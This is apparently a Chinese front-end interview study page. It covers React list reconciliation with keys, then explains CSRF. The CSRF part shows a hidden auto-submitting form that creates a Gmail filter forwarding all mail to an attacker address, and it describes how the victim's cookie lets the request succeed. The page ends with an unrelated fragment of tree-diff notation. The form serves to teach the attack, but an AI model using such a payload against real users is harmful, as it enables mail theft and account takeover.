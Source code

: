 如果只是简单的将新增元素插入到表头，那么更新开销会比较大。比如：

```html
<ul>
  <li>Duke</li>
  <li>Villanova</li>
</ul>

<ul>
  <li>Connecticut</li>
  <li>Duke</li>
  <li>Villanova</li>
</ul>
```

React 并不会意识到应该保留 `<li>Duke</li>` 和 `<li>Villanova</li>`，而是会重建每一个子元素。这种情况会带来性能问题。

###### Keys
为了解决上述问题，React 引入了 key 属性。当子元素拥有 key 时，React 使用 key 来匹配原有树上的子元素以及最新树上的子元素。以下示例在新增 key 之后，使得树的转换效率得以提高：

```html
<ul>
  <li key="2015">Duke</li>
  <li key="2016">Villanova</li>
</ul>

<ul>
  <li key="2014">Connecticut</li>
  <li key="2015">Duke</li>
  <li key="2016">Villanova</li>
</ul>

```

> 这个 key 不需要全局唯一，但在列表中需要保持唯一。TODO 需要在源码中确定



### 说一下前端安全中的CSRF

1. 先看一个典型的场景

邮箱登录态，点击了垃圾邮件执行了页面的隐藏脚本
```js
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();
</script>
```
> 会发生的事情：这个页面只要打开，就会向Gmail发送一个post请求。请求中，执行了“Create Filter”命令，将所有的邮件，转发到“hacker@hackermail.com”。
> 小明由于刚刚就登陆了Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。
>黑客可以查看小明的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己。


[0.0, 0.0]:     PB->LD   # 不同，删除PB，添加LD
[0.1, 0.1]:     PD->LB   # 不同，更新
[0.1.0, 0.1.0]: PC->Null # Last树没有该节点，所以删除PC即可
[0.1.2, 0.1.2]: Null->LC # Prev树没有该节点，所以添加C到该位置